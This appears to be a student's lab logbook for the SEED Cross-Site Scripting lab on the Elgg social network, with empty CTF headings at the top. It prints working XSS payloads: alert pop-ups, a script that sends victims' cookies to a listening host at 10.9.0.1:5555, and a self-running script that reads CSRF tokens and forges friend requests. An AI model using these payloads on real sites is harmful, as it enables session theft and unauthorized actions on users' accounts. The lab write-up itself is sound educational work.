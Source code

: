 This logbook is divided into 2 sections, one referring to the CTF - week 10, and another concerning the tasks for week 10.

# CTF - Week 10

## Challenge 1
<!---
![challenge1](LOGBOOK_screenshots/LOGBOOK10/challenge1.png)
-->

## Challenge 2

<!---
![challenge2](LOGBOOK_screenshots/LOGBOOK10/challenge2.png)
-->
____
____

# Cross-Site Scripting (XSS) Attack Lab

## Task 1: Posting a Malicious Message to Display an Alert Window

During this task, we needed to embed a JavaScript program in a profile, such that when another user viewed its profile, an alert window would appear. We chose Alice's Profile. For that we clicked on the option to edit the profile and in the brief description, we added the following code:
```js
<script>
    alert("XSS");
</script> 
```
After that, from another user's profile, when clicking on Alice's profile we would see a pop-up window with the message *XSS*, as we can see in the picture below:

![task1](LOGBOOK_screenshots/LOGBOOK10/task1.png)

## Task 2: Posting a Malicious Message to Display Cookies

The goal for this task was to embed a JavaScript program in a profile, such that when the user viewed their own profile, an alert window would appear with the user's cookies. For that we changed the code inserted in the brief description to:

```js
<script>
    alert(document.cookie);
</script>
```

After that, logged into Alice profile, on her profile page, we would see a pop-up window with the message with the cookies, as we can see in the picture below:

![task2](LOGBOOK_screenshots/LOGBOOK10/task2.png)

##  Task 3: Stealing Cookies from the Victim's Machine

In this task, the goal was to use the JavaScript code to send cookies to another profile. In this case, Alice was the attacker and she would be able to see other's cookies. For that, we changed the code in the brief description to:
```js
<script>
    document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + ' >');
</script>
```
We can see the result when we used the *netcat* program in the picture below:

![task3](LOGBOOK_screenshots/LOGBOOK10/task3.png)


## Task 4: Becoming the Victim's Friend

The goal for task 4 was to perform an attack that would write an XSS worm that added Samy as a friend to any other user that would visit Samy's page. For that, we started by seeing what happened when a friend request was sent.

![task4_1](LOGBOOK_screenshots/LOGBOOK10/task4_1.png)

We concluded that the friend id, the variables *__elgg_ts* and *__elgg_token* and the cookies were sent to the server in every friend request. 

Then, it was needed to add in the *"About Me"* field (using Edit HTML option), the JavaScript program to send out the HTTP request to add a friend.

```js
<script type="text/javascript">
window.onload = function () {
  var Ajax=null;

  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token="&__elgg_token="+elgg.security.token.__elgg_token;

  //Construct the HTTP request to add Samy as a friend.
  var sendurl= "http://www.seed-server.com/action/friends/add" + "?friend=59" + token + ts;
  
  //Create and send Ajax request to add friend
  Ajax=new XMLHttpRequest();
  Ajax.open("GET", sendurl, true);
  Ajax.send();
}
</script>
```
After that, we checked that in other users' profiles we were able to add Samy as friend only by seeing his profile.

![task4_2](LOGBOOK_screenshots/LOGBOOK10/task4_2.png)

#### **Question 1: Explain the purpose of Lines ➀ and ➁, why are they are needed?**

Lines 1 and 2 get the values of the *__elgg_ts* and *__elgg_token* variables. These values are used against Cross Site Request Forgery attacks. The values change every time a page is loaded, so they need to be accessed every time.

#### **Question 2:  If the Elgg application only provide the Editor mode for the "About Me" field, i.e., you cannot switch to the Text mode, can you still launch a successful attack?**
No, if the application only provided the Editor mode, the attack would not be successful since this mode adds extra HTML and some symbols change.
